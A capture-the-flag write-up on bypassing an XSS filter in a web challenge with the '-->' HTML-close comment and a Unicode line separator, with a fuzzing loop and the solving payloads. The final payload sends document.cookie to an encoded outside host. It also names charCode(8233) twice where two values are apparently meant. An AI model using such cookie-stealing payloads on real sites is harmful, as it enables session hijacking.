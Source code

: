 The output really surprised me. The following are all valid js comment syntax:

```
#!a.orange.ctf"
-->a.orange.ctf"
```

The first [shebang syntax](https://github.com/tc39/proposal-hashbang) has to be in the start of the js, which means it is not very useful in this challenge.

However, the second one is interesting. This seems to be [a valid comment syntax](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment) in ECMA. Well.... it's javascript!

There is still one problem. The `-->` comment syntax must be the start of the line, but `\n\r` are all filtered. I start to wonder there exists an unicode newline or not, and I find this [stackoverflow](https://stackoverflow.com/questions/50156996/replace-n-with-unicode-to-display-new-line-in-html-correctly) post.

Anyway, let's fuzz/brute-force again!

```javascript
  for (let j = 0; j < 65536; j++) {
    try {
        var cmd = '"aaaaa";'+String.fromCharCode(j) + '-->a.orange.ctf"';
        eval(cmd);
    } catch(e) {
        var err = e.toString().split('\n')[0].split(':')[0];
        if (err === 'SyntaxError' || err === "ReferenceError")
          continue;
        err = e.toString().split('\n')[0]
    }
    console.log(`[${err}]`,j,cmd);
  }
```

`charCode(8233)` and `charCode(8233)` will be parsed as newline in javascript.

This payload can pop an alert: `http://3.114.5.202/fd.php?q="%2balert(1)%e2%80%a8-->`

The final payload:

```
http://3.114.5.202/fd.php?q=%22%2bfetch(atob(`Ly8xMzMuMjIxLjMzMy4xMjM6MTIzNC8/YT0K`)%2bbtoa(document%5B%60cookie%60%5D))%e2%80%a8--%3E
```
The flag is `hitcon{/FD 1s 0ur g0d <(_ _)>}`.

Actually, I was also playing with parentheses and template literal (backtick), but I failed to create a successful payload. To my surprise, there is actually an unintended solution exploiting parentheses. Check out [terjanq's](https://twitter.com/terjanq/status
/1183633977455861760) payload, or [this one](https://github.com/orangetw/My-CTF-Web-Challenges#unintended-solution).

Fun fact: The idea seems to be from a challenge in [Cure53 XSS wiki](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8), and the first author [filedescriptor (fd)](https://twitter.com/filedescriptor) is working in Cure53.
